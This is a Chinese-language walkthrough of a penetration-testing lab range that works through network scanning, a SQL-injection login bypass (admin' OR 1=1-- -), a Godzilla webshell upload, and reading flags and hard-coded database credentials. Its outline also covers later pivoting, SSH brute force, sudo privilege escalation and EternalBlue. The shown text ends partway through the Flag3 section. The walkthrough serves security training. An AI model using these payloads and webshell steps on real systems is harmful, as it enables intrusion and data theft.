# NEW\_SEC\-CORP 攻防演练

> 靶场Vmware虚拟机镜像下载：[点我下载](https://1825927607.share.123pan.cn/123pan/foFNjv-3J4kH)
> 
> 对应靶场配套题目下载：[点我下载](https://wwbte.lanzn.com/b014xoyx8j) 密码：84qg
> 
> 

---

## 一、靶场环境说明

### 1\.1 靶场入口信息

根据靶场启动时显示的提示信息，本次实验环境的基础信息如下：

|**项目**|**信息**|
|:---:|:---:|
|宿主机操作系统|CentOS Linux 7|
|宿主机 IP|http://192.168.153.135:55003|
|初始访问入口|http://192.168.153.135:55003|
|对外开放端口|55003、55004、55005、55006|
|OA Web 虚拟目录|/zentao|

根据本次实验实际使用情况：

|**端口**|**用途**|
|:---:|:---:|
|55003|DMZ 初始 Web 访问入口|
|55004|一级 FRP SOCKS5 代理入口|
|55005|二级 FRP SOCKS5 代理入口|
|55006|启动提示中列出的开放端口，本次实验暂未使用|

\*注意：不要随意修改 FRP 的 remotePort，也不要擅自新增 Docker 端口映射或开放宿主机端口

### 1\.2 靶场拓扑



### 1\.3 攻击拓扑

```plaintext
Kali (192.168.153.130)
   │
   │  ① DMZ 扫描 (nmap)
   ▼
DMZ 服务器 (192.168.153.135:55003 / 容器 172.16.37.16)
   │  ② robots.txt → Flag1
   │  ③ SQL 注入 / Webshell → Flag2
   │  ④ conn.php 数据库凭据 → Flag3
   │  ⑤ 内网探测 (172.16.37.0/24) → 发现 OA 172.16.37.17 = Flag4
   ▼
OA 服务器 (172.16.37.17 / 10.15.51.12, Zentao 11.6)
   │  ⑥ 搭建一级 FRP 代理 (DMZ 跳板)
   │  ⑦ SSH 爆破 → Flag5
   │  ⑧ sudo vim 提权 → Flag6
   │  ⑨ 扫描发现 Win7 IP + 二级 FRP 代理
   │  ⑩ Win7 10.15.51.20 = Flag7
   ▼
Win7 虚拟机 (10.15.51.20, br-net2)
   │  ⑪ DMZ 运行 FRPS，负责接收代理连接
   │  ⑪ OA 运行第二个 FRPC，使用 SOCKS5 插件
   │  ⑫ MSF 配置代理 + 永恒之蓝
   │  ⑬ Kali 通过 DMZ 暴露的第二个代理端口访问 OA 后面的网络
   │  ⑭ 进入终端桌面 → Flag8
   ▼
宿主机 (qzks-docker, 192.168.153.135, CentOS 7)
```

---

## 二、环境信息汇总

### 2\.1 环境信息表

|资产|IP|系统|关键服务|
|:---:|:---:|:---:|:---:|
|攻击机 Kali|192\.168\.153\.130|Kali Linux|frps / nmap / hydra|
|DMZ 服务器|192\.168\.153\.135:55003|CentOS 7 容器|nginx \+ PHP 7\.2\.34 / MySQL / SSH|
|DMZ 容器 IP|172\.16\.37\.16|CentOS 7|—|
|OA 服务器|172\.16\.37\.17 / 10\.15\.51\.12|Ubuntu 16\.04\.7|Zentao 11\.6 / SSH / MySQL|
|Win7 虚拟机|10\.15\.51\.20|Windows 7|RDP / SMB|
|Docker 靶场宿主机|192\.168\.153\.135|CentOS 7|Docker / KVM|

---

## 三、Flag1 —— DMZ 扫描与信息收集

### 3\.1 端口扫描

```bash
nmap -sV -sC -p- 192.168.153.135
```

**关键输出**：



**特别关注：**

```plaintext
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.4 (protocol 2.0)
55003/tcp open  http     nginx + PHP 7.2.34
```

### 3\.2 目录扫描 / 敏感信息发现

使用`dirb`命令 \+ 指定字典进行扫描

```bash
dirb http://192.168.153.135:55003 /usr/share/wordlists/dirb/common.txt
```

**关键回显**：



**特别关注：**

```plaintext
http://192.168.153.135:55003/robots.txt
```

直接访问：

```bash
# robots.txt 泄露 Flag1
curl -s http://192.168.153.135:55003/robots.txt
```

**输出**：

```plaintext
User-agent: *
Disallow: /admin
Flag1{BS8peMkmFWWYYbp}
```

### 3\.3 Flag1

```plaintext
Flag1{BS8peMkmFWWYYbp}
```

---

## 四、Flag2 —— DMZ 漏洞利用

### 4\.1 漏洞发现：登录 SQL 注入

`login.php` 

先看表单结构：

```bash
curl -s http://192.168.153.135:55003/login.php | grep -A3 '<form'
```

**回显**：



> **推理**：`username` \+ `password` 两个参数，POST 提交
> 
> 第一个要测的就是 **SQL 注入** —— 登录框是注入的高发区
> 
> 

先试正常请求（基线）：

```bash
curl -s -X POST http://192.168.153.135:55003/login.php \
  -d "username=admin&password=admin123&submit=1" | grep alert
```

**回显**：`身份认证失败：用户名或密钥不正确。`

再试单引号（触发报错）：

```bash
curl -s -X POST http://192.168.153.135:55003/login.php \
  -d "username=admin'&password=x&submit=1" | grep alert
```

**回显**：



说明源码存在直接拼接：

```php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password' LIMIT 1";
```

### 4\.2 登录绕过

经典永不过时 —— `OR 1=1`：

```bash
curl -s -i -X POST http://192.168.153.135:55003/login.php \
  -d "username=admin' OR 1=1-- -&password=x&submit=1" \
  -c /tmp/ck.txt | head -12
```

**回显**：

```plaintext
HTTP/1.1 302 Found
Location: upload.php
Set-Cookie: PHPSESSID=f3dmi2se8185qgapvkidu9hqt
```

> **读出的信息**：`302 → upload.php`，说明**登录绕过成功**，跳到了上传页
> 
> 

也可以直接在web页面输入对应的用户名：`admin' OR 1=1-- - `密码随便填写，即可成功登录



### 4\.3 上传哥斯拉 Webshell

（1）按照下图的操作，生成木马文件



（2）选择保存位置，并以PHP结尾



（3）使用刚刚注入的密码登录web页面，`admin' OR 1=1-- -`



（4）上传刚刚制作的木马文件，并访问对应的文件目录（触发木马）



在浏览器中访问刚刚上传的这个地址路径即可（并且复制这个路径，需要作为下面使用哥斯拉连接的路径）



（5）使用哥斯拉进行连接



（6）手动连接刚刚添加的木马



（7）刷新后即可看到DMZ区域的靶机目录结构，以及刚刚上传的文件



### 4\.4 读取 Flag2

打开哥斯拉的「命令执行」标签，输入以下命令查看对应的靶机信息以及Flag2

```bash
id; hostname; pwd; cat /Flag2.txt
```

**输出**：



### 4\.5 Flag2

```plaintext
Flag2{QRpbZQPymcCt3Dc}
```

---

## 五、Flag3 —— 数据库凭据泄露

### 5\.1 配置文件定位

依旧使用哥斯拉终端输入以下命令

```bash
ls -la /var/www/html/; cat /var/www/html/conn.php
```

**输出**：



**特别关注：**

```bash
-rw-rw-r-- 1 nginx nginx 229 Oct 28 03:19 conn.php
...
<?php
$conn = new mysqli('127.0.0.1', 'root', 'root', 'flag_db');
?>
```

> **读出的信息**：数据库 `root` / `root`，库名 `flag_db`
> 
> 

### 5\.2 连接数据库

（1）打开哥斯拉的「数据库管理」标签，输入以下数据，可以看到可以成功连接



（2）查询Flag信息

```sql
SELECT * FROM `flag_db`.`Flag`
/*查询Flag*/
SELECT * FROM `flag_db`.`users`
/*查询用户信息*/
```

